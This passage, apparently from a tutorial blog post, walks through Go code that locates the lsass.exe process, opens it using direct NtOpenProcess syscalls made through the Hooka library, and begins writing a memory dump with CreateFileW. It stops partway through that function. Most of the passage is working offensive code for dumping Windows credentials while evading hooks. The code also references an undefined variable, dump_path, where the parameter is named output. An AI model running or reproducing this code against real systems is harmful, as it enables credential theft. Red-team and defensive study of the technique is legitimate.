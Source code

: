 ```go
    // Check if process name is lsass.exe
    if proc.Exe == "lsass.exe" {
      return proc.ProcessID, nil // Return PID
    }
  }

  return 0, errors.New("lsass.exe process not found!")
}
```

Once we also have that, let’s start with the main part… the `LSASS.EXE` process dump

This function will receive the process ID (PID) and a string which is the file where the process dump will be written to

```go
// Golang function
func DumpLsass(pid int, output string) (error) {
  ...
}
```

We use `hooka` to retrieve direct syscalls (see [here](https://github.com/evildevill/Hooka/tree/main/example) for references), I only use it with NtOpenProcess however I also wanted to use it with `NtCreateFile` but it was really hard so I let you to do that. We will use `CreateFileW` instead

```go
func DumpLsass(pid int, output string) (error) {
  // Get syscall
  NtOpenProcess, err := hooka.GetSysId("NtOpenProcess")
  if err != nil {
    return err
  }

  // Variable to store process pointer
  var procHandle uintptr
  // Open lsass process
  _, err = hooka.Syscall(
    NtOpenProcess, // syscall
    uintptr(unsafe.Pointer(&procHandle)), // process handle
    uintptr(0xFFFF),
    uintptr(unsafe.Pointer(&ObjectAttrs{0, 0, 0, 0, 0, 0})), // attributes
    uintptr(unsafe.Pointer(&ClientID{uintptr(pid), 0})),
    0,
  )

  if err != nil { // Handle error
    return err
  } else if procHandle == 0 {
    return err
  }

  // Create file on path
  os.Create(dump_path)
  // Get API call
  CreateFile := windows.NewLazyDLL("kernel32").NewProc("CreateFileW")
  // Convert string to uintptr
  path, _ := syscall.UTF16PtrFromString(output)

  // Call CreateFileW to write memory bytes
  fHandle, _, _ := CreateFile.Call(
    uintptr(unsafe.Pointer(path)), // file path
    syscall.GENERIC_WRITE, // access
    syscall.FILE_SHARE_READ | syscall.FILE_SHARE_WRITE,
    0,
    syscall.OPEN_EXISTING,
```
